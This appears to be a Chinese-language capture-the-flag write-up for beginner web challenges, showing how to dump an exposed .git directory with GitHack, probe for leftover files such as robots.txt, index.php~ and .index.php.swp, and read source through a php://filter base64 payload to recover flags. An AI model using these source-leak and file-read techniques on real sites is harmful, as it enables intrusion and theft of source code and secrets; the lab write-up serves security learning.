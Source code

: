 ```
git clone https://github.com/BugScanTeam/GitHack
cd GitHack
python GitHack.py http://challenge-df81f549db86830c.sandbox.ctfhub.com:10080/.git 
```

会得到indedx.html同时flag也被部署到了前端

## 常见的收集

### 考点：

敏感文件

### 思路：

御剑或者burp配合字典半自动化搜索

### 解题：

实际暴露的敏感信息：

robots.txt

index.php~

.index.php.swp

然后拼接这三部分的flag

## afr-1

### 考点：

[php中伪协议总结](https://www.cnblogs.com/zzjdbk/p/13030717.html)：

php://filter伪协议的利用

条件：

不需要开启allow_url_fopen，仅php://input、 php://stdin、 php://memory 和 php://temp 需要开启allow_url_include。

### 思路：

直接构造payload

### 解题：

payload：

```
?p=php://filter/read=convert.base64-encode/resource=flag 
```

得：

```
<?php
die('no no no');
//n1book{afr_1_solved} 
```
